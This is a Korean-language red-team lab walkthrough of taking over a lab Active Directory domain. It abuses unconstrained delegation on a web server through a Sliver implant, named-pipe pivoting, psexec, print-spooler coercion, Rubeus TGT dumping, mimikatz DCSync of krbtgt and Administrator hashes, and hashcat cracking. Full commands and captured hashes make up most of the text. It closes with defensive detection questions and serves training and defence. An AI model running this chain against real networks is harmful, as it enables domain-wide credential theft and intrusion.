


# 7. 도메인 장악 WEB01

이번 섹션에서는 다음과 같은 주제들을 다룬다:

* SharpHound 블러드하운드 정보수집 2
* Unconstrained Delegation - 강제 인증 + TGT 덤프
* 머신 계정을 이용한 DCSync

<figure><figcaption></figcaption></figure>

장악한 Rahat.Kuma 유저를 이용해 USWKSTN01에서 다시 한 번 블러드하운드를 실행한다.

```
sliver (TOUGH_BREADCRUMB) > inline-execute-assembly /root/funtimes.exe "-c All,Session --forcesecureldap --zipfilename 
crashdump2 --zippassword test --distinguishedname DC=us,DC=rt,DC=local"

2025-01-19T19:18:48.9070479+09:00|INFORMATION|Status: 621 objects finished (+621 31.05)/s -- Using 133 MB RAM
2025-01-19T19:18:48.9070479+09:00|INFORMATION|Enumeration finished in 00:00:20.7194148
2025-01-19T19:18:48.9502136+09:00|INFORMATION|Saving cache with stats: 33 ID to type mappings.
 7 name to SID mappings.
 4 machine sid mappings.
 10 sid to domain mappings.
 1 global catalog mappings.
2025-01-19T19:18:48.9693593+09:00|INFORMATION|SharpHound Enumeration Completed at 7:18 PM on 1/19/2025! Happy Graphing!

[+] inlineExecute-Assembly Finished
```

<figure><figcaption></figcaption></figure>

확인해보면 Rahat.Kuma가 ITAdmins 그룹 소속이고, 이 그룹은 거의 모든 서버에 로컬 관리자 권한을 갖고 있다. 그 중 WEB01 서버에는 Unconstrained Delegation 설정이 되어 있다. Unconstrained Delegation은 설계상 커버로스 6단계 인증 중 유저의 TGT를 받아올 수 있다.

유저가 Unconstrained Delegation 설정되어 있는 서버에 TGS-REQ을 통해 서비스 티켓을 요청할 때, 이 요청을 받은 도메인 컨트롤러는 TGS-REQ안의 SPN을 본 뒤, Unconstrained Delegation 설정되어 있는 서버라는 것을 확인 한뒤, 서비스 티켓을 발급할 때 유저의 TGT를 ST안에 넣어서 돌려준다. 이 TGT는 추후 Unconstrained Delegation 서버가 위임을 할 때 사용한다.

Unconstrained Delegation을 악용하는 방법에는 여러가지가 있지만, 강제 인증(Authentication Coercion)을 이용한 도메인 컨트롤러의 머신 계정 TGT를 훔쳐오는 방법이 가장 효과적이다. 바로 DC의 TGT를 이용해 DCSync를 진행할 수 있기 때문이다.

먼저 WEB01으로 횡적 이동을 한다. WEB01은 웹 서버 특성상 Outbound 웹 트래픽이 가능할 수 있겠지만, 그래도 서버들 간의 SMB 트래픽에 숨어들기 위해 Named Pipe + SMB로 이동한다.

```
sliver (TOUGH_BREADCRUMB) > pivots named-pipe --bind mojo.10968.11628.5896583801798593584 --allow-all

[*] Started named pipe pivot listener \\.\pipe\mojo.10968.11628.5896583801798593584 with id 2

sliver (TOUGH_BREADCRUMB) > profiles new --format service -p 10.2.30.100/pipe/mojo.10968.11628.5896583801798593584 uswkstn01-web01

[*] Saved new implant profile uswkstn01-web01

sliver (TOUGH_BREADCRUMB) > psexec -t 30 -p uswkstn01-web01 -s IIS-OnlineUpdater -d "Update IIS service without restart" web01.us.rt.local

[*] No builds found for profile uswkstn01-web01, generating a new one
[*] Sliver name for profile uswkstn01-web01: MULTIPLE_REPUTATION
[*] Uploaded service binary to \\web01.us.rt.local\C$\windows\temp\b0_publicity_c.exe
[*] Waiting a bit for the file to be analyzed ...
[*] Successfully started service on web01.us.rt.local (c:\windows\temp\b0_publicity_c.exe)
[*] Session 3730afb5 MULTIPLE_REPUTATION - tcp(127.0.0.1:50290)->2a06:98c0:3600::103->TOUGH_BREADCRUMB-> (web01) - windows/amd64 - Sun, 19 Jan 2025 10:48:17 UTC

[*] Successfully removed service IIS-OnlineUpdater on web01.us.rt.local
```

TGT 덤핑은 대부분 Rubeus monitor + 강제 인증으로 진행하는데, 안타깝게도 Sliver에서 Rubeus monitor 명령어를 돌리면 버그로 인해 해당 작업이 끝나지 않는 경우가 생긴다. 이런 경우에는 강제 인증을 먼저 진행하고, 곧바로 10\~20초 내에 바로 rubeus dump 명령어를 통해 덤프한다.

```
sliver (MULTIPLE_REPUTATION) > inline-execute-assembly /root/SharpSpoolTrigger.exe "udc01.us.rt.local web01.us.rt.local"

[*] Successfully executed inline-execute-assembly (coff-loader)
[*] Got output:

NdrClientCall2x64
[-]RpcRemoteFindFirstPrinterChangeNotificationEx status: 6

[+] inlineExecute-Assembly Finished

sliver (MULTIPLE_REPUTATION) > rubeus -- "dump /user:UDC01$ /service:krbtgt /nowrap"

    ServiceName              :  krbtgt/US.RT.LOCAL
    ServiceRealm             :  US.RT.LOCAL
    UserName                 :  UDC01$ (NT_PRINCIPAL)
    UserRealm                :  US.RT.LOCAL
    StartTime                :  1/19/2025 7:10:29 PM
    EndTime                  :  1/20/2025 5:10:29 AM
    RenewTill                :  1/26/2025 7:10:29 PM
    Flags                    :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
    KeyType                  :  aes256_cts_hmac_sha1
    Base64(key)              :  xluG04pzAE/2nnclISElb+evLXxwfvI4aQEyuwpxRPg=
    Base64EncodedTicket   :

      doIFgDCCBXygAwIBBaEDAgEWooIEijCCBIZhgg < ... 생략 ... >
```

이제 도메인 컨트롤러의 TGT를 획득했으니, 이를 이용해 DCSync로 US 도메인 전체를 장악한다.

```
// 현재 세션에 US 도메인 컨트롤러의 TGT 삽입 
sliver (TOUGH_BREADCRUMB) > rubeus --in-process -- "ptt /ticket:doIFgDCCBXygAwIBBaEDAgEWooIEijCCBIZhgg < ... 생략 ... >  

// DCSync를 이용해 KRBTGT 장악 
sliver (TOUGH_BREADCRUMB) > mimikatz "\"lsadump::dcsync /domain:us.rt.local /user:US\\krbtgt\""

Credentials:                                                                                                           
  Hash NTLM: bbcf6efd0bfe789536745a977499154a
    ntlm- 0: bbcf6efd0bfe789536745a977499154a
    lm  - 0: b7eaaefa4e82e6297c3289f706301b14
    
* Primary:Kerberos-Newer-Keys *         
    Default Salt : US.RT.LOCALkrbtgt    
    Default Iterations : 4096           
    Credentials                                            
      aes256_hmac       (4096) : 65cc3cd6251d871a4dd13c5964fa64a153607a21aabe2254c80f31ca11b6cf2f
      aes128_hmac       (4096) : 8a214f2fe3d55d7ab323ae42cb169f09

// DCSync를 이용해 Administrator 장악 
sliver (TOUGH_BREADCRUMB) > mimikatz "\"lsadump::dcsync /domain:us.rt.local /user:US\\Administrator\""

SAM Username         : Administrator
Credentials:
  Hash NTLM: 8846f7eaee8fb117ad06bdd830b7586c
* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-2EBRD4U9LK0Administrator
    Default Iterations : 4096 
    Credentials
      aes256_hmac       (4096) : c46d0bfa548523c3df83032ccaf86813a56955b0d7bd0a9345399c53fe263c78
```

Administrator의 해시를 크래킹 해보면 비밀번호가 나온다.

```
└─# hashcat -a 0 -m 1000 usadministrator.nt /usr/share/wordlists/rockyou.txt --show

8846f7eaee8fb117ad06bdd830b7586c:password
```

모든 공격이 끝나게 되면 아래와 같은 다이어그램이 나온다. DC 머신 계정의 TGT를 획득해 도메인을 향한 DCSync를 할 수 있고, 이를 통해 도메인 전체를 장악할 수 있게 된다.

<figure><figcaption></figcaption></figure>

## 우리 회사는

* Unconstrained Delegation 서버를 운영하고 있는가? 있다면 망 분리, 또는 모니터링이 잘 되고 있는가?
* 도메인 컨트롤러를 향해 일어나는 강제 인증 (Print Spooler, Petitpotam, DFSCoerce, Shadowcoerce 등...)을 탐지할 수 있는가?
* DCSync가 도메인 컨트롤러가 아닌 호스트에서 도메인 컨트롤러의 머신 계정을 사용해 일어날 때, 이를 탐지할 수 있는가?

